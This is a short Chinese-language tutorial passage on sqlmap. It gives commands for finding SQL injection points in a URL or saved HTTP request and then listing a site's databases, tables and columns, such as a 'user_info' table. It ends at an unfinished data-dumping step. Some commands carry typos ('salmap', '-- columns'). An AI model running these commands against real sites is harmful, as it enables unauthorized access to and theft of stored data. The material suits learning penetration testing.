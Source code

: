 ## sqlmap
### sqlmap入门
1. 判断是否存在注入点
```
sqlmap -u http://xxx
```
当参数有多个时，需要加双引号
```
sqlmap -u "http://xxx/?id=1&uid=2"
```
2. 判断http报文中是否存在注入点
将http报文写入一个文本，然后使用
```
salmap -r txt文本
```

存在注入点后，进行下一步操作
1. 查询当前用户下的所有数据库
```
sqlmap -u http://xxx/ --dbs
```
2. 确认数据库后，进行表的查询.  
比如上面一条语句确认有以下几个数据库
<img src="../pictures/j4ddnt2dp1.png" width="600" />
那么现在查询dkeye数据库中有哪些表  

```
sqlmap -u http://xxx/ -D dkeye --tables
```
3. 确认表后，获取字段名
比如上面查询表名后，确定查询其中的user_info表
<img src="../pictures/j79q4i3bahf.png" width="200" />
使用---columns获取该数据表中的字段名。

```
sqlmap -u http://xxx/ -D dkeye -T user_info -- columns
```

4. 确定字段后，使用命令获取某个字段的

```{.python .input}

```
